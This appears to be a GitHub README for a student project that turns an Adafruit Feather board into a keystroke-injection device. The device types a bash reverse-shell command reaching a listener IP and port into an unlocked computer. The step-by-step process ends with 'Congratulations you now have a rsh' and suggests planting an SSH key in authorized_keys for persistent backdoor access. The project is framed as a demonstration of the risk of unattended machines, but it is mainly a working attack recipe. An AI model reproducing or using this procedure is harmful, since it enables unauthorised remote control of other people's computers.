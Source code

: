 # RubberDucky
### Summary: 
Through the use of the netcat command our group was able to create a usb device that is capable of creating a backdoor
into another users computer which is on the same network. 

### Objective: 
To demonstrate the risk inhereted when a person leaves a computer unlocked and unattended in a public setting and how that risk can be reduced by locking said computer when leaving it unatended. We were able to deomonstrate how to deal with this attack after it has been carried out, by monitoring a computer for suspicious bash processes and their usage of resources.

### Hardware: 
Adafruit Feather 32u4 Bluefruit LE
More information can be found [here](https://www.adafruit.com/product/2829)

### Process: 
+ Change the ip address and port within the Arduino Sketch to the ip and port that you will be using on the host machine
```C
  // Create rsh
  Keyboard.print("bash -i >& /dev/tcp/192.101.10.120/1337 0>&1 & disown");
```
+ Flash the Adafruit device with the sketch found in veitchDuck
+ Run the attack.sh file on the host machine 
+ Plug the USB device into the target machine
+ Watch the target computer as a terminal is open, after the commmand has been entered and the terminal has closed you may remove the USB device and return the host machine
+ Congratulations you now have a rsh into another persons computer. 
+ Once here the extensions are endless, however it may be best to add an additional back door to the targets computer for rentry. There are many ways this can be done one is to add a public ssh key to the targets authorized_keys file
More on backdoors can be found [here](https://medium.com/@airman604/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)


### Notes:
This device has been tested on Linux and Mac.
The authors will not be held responsible for any blackhat hacking.
